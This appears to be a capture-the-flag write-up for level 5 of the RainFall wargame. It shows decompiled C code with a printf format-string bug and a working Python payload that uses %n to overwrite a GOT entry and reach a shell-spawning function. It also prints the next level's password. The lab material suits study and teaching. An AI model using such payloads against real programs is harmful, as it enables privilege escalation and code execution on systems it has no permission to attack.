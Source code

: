 # Level5

Lets decompile the binary

```jsx
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

// ------------------------ Structures ------------------------

struct _IO_FILE {
    int32_t e0;
};

// ------------------- Function Prototypes --------------------

int32_t n(void);

// --------------------- Global Variables ---------------------

struct _IO_FILE * g1 = NULL; // 0x8049848
int32_t g2;

// ------------------------ Functions -------------------------

// Address range: 0x80484c2 - 0x8048504
// Demangled:     __int128
int32_t n(void) {
    // 0x80484c2
    int32_t str; // bp-524, 0x80484c2
    fgets((char *)&str, 512, g1);
    printf((char *)&str);
    exit(1);
    return &g2;
}

// Address range: 0x8048504 - 0x8048511
int main(int argc, char ** argv) {
    // 0x8048504
    n();
    // UNREACHABLE
}

// --------------------- Meta-Information ---------------------

// Detected compiler/packer: gcc (4.6.3)
// Detected functions: 2

```

We can already see that we have a puts followed by a printf with no flags. So we can guess that we can leak stack information using something like `%x %x %x %x` resulting in something like :

`200 b7fd1ac0 b7ff37d0 25207825`

Hmm those look like addresses

`AAAA.%x.%x.%x.%x
AAAA.200.b7fd1ac0.b7ff37d0.41414141`

Doing this confirms that the input is stored at the 4th postition in the stack. (41414141 is AAAA etc.)

There is a function name o() that seems to executes a shell. When using gdb and jumping to that function it seems to execute the shell but we dont have the necessary rights. Doing `whoami` gives us level5

`(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; cat) | ./level5`
`cd .. && cat ./level6/.pass`
`d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

Ok i guess it was the same as level4

```jsx
level5@RainFall:~$ objdump -t level5 | grep " o$"
080484a4 g     F .text  0000001e              o
```

`%134513824x` prints padding to get to our desired value (0x080484a4 - 4 bytes)
